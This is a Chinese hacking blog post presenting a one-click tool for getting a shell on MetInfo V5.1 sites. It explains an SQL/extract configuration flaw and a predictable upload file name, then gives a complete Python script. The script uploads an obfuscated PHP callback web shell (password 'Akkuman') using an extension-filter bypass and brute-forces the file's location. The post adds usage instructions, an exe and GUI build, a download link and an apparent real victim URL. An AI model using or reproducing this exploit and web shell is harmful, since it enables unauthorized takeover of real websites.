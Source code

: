 ```yaml
---
title: MetInfo V5.1 GetShell一键化工具
date: 2016-06-08 22:40:32
categories: 
- Hacker
tags: 
- Hacker
- Tools
---
```

----------
# 漏洞解析：
----------
**config/config.inc.php**
```php
$langoks = $db->get_one("SELECT * FROM $met_lang WHERE lang='$lang'");

if(!$langoks)die('No data in the database,please reinstall.');

if(!$langoks[useok]&&!$metinfoadminok)okinfo('../404.html');

if(count($met_langok)==1)$lang=$met_index_type;

$query = "SELECT * FROM $met_config WHERE lang='$lang' or lang='metinfo'";//看这里

$result = $db->query($query);

while($list_config= $db->fetch_array($result)){

	if($metinfoadminok)$list_config['value']=str_replace('"', '&#34;', str_replace("'", '&#39;',$list_config['value']));

	$settings_arr[]=$list_config;

	if($list_config['columnid']){

		$settings[$list_config['name'].'_'.$list_config['columnid']]=$list_config['value'];

	}else{

		$settings[$list_config['name']]=$list_config['value'];

	}

}

@extract($settings);
```
----------
<!--more-->
访问

http:///localhost/metinfo5.1/index.php?lang=metinfo

`SELECT * FROM met_config WHERE lang='metinfo' or lang='metinfo'`

----------
## 文件命名方式：
----------
**/feedback/uploadfile_save.php**
```php
srand((double)microtime() * 1000000);

$rnd = rand(100, 999);

$name = date('U') + $rnd;

$name = $name.".".$ext;

```
**文件保存在/upload/file/目录**

命名方式就是时间戳去掉后三位，紧接着一个三位数的随机数

可爆破：

如

http://127.0.0.1/upload/file/1465394396.php

----------

# 一键化利用工具：

----------

**本程序基于python编写**

```python
#!/usr/bin/env python
#-*- coding: utf-8 -*-

import requests
import Queue
import threading
import time
import sys


headers = {'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.10 Safari/537.36'}

urls = Queue.Queue()
#http://hb.jhxjd.com/upload/file/1441445378.php

def bp(urls,time_out):
    while not urls.empty():
        base_url = urls.get()
        response = None

        try:
            time.sleep(int(time_out))#延时设置
            response = requests.get(base_url,headers=headers)
            if response.status_code == 404:
                print 'Not Fount----%s\n' % base_url
        except:
            continue
        finally:
            if response:
                with open('url.txt','a+') as f:
                    f.write('%s?e=YXNzZXJ0\n'%base_url)

def main(target_url,thread_num,time_out):

    #取出当前时间戳并删除后四位
    now = str(int(time.time()))[:-4]

    #将所有的待爆破地址遍历并加入队列
    for i in range(0,10):
        for j in range(100,1000):
            num_str = ''.join((str(i),str(j)))
            url = ''.join(('%s/upload/file/%s' % (target_url,now),num_str,'.php'))
            urls.put(url)

    #上传文件
    with open('xiaoma.php','w+') as fi:
        fi.write("<?php $e = $_REQUEST['e'];register_shutdown_function(base64_decode($e), $_REQUEST['Akkuman']);?>")
    data = {
            'fd_para[1][para]':'filea',
            'fd_para[1][type]':'5'
            }
    files = {'filea': open("xiaoma.php", 'rb')}
    upload_url = '%s/feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo' % target_url
    res = requests.post(upload_url,data = data,files=files)
    #等待两秒  文件上传
    time.sleep(2)




    #启动多线程
    for i in range(int(thread_num)):
        t = threading.Thread(target = bp,args=(urls,time_out,))
        t.start()


if __name__ == '__main__':
    if len(sys.argv) != 4:
        print 'Example : %s http://www.xxx.com 20 0' % sys.argv[0]
    else:
        main(sys.argv[1],sys.argv[2],sys.argv[3])

```

程序略显粗糙

为了方便，我也把他打包成了**exe**

然后闲着没事，想着简单地给他做了个**界面**,这样的
![GUI](http://7xusrl.com1.z0.glb.clouddn.com/MetInfo5.1GetshellGui.png)

----------
# 文件说明
----------
> MetInfo V5.1上传漏洞getshell利用工具

> 	作者 : Akkuman

> 漏洞原理详见http://www.wooyun.org/bugs/wooyun-2010-0139168

> 使用说明：
> 本目录有两个文件，一个py，一个exe
> 因为exe是py文件打包而成，故文件较大
> 64位系统测试使用通过
> 
> 如果你安装了py2.x环境  py文件使用方法
> 打开cmd
> python baopo.py http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> exe命令行文件使用方法
> 打开cmd
> baopo.exe http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> GUI程序，应该不用说
> 
> 关于getshell与结果
> 上传的是回调一句话木马
> ```php
> <?php >$e=$_REQUEST['e'];register_shutdown_function(base64_decode($e),$_>REQUEST['Akkuman']);?>
> ```
> 菜刀连接，密码是Akkuman
> 
> 爆破结果会生成在**url.txt**

----------
# 下载地址：
----------
[(访问码:1475)](http://cloud.189.cn/t/v263QbMJVJ3u )

*转载请注明出处*

*作者博客 hacktech.cn | 53xiaoshuo.com*
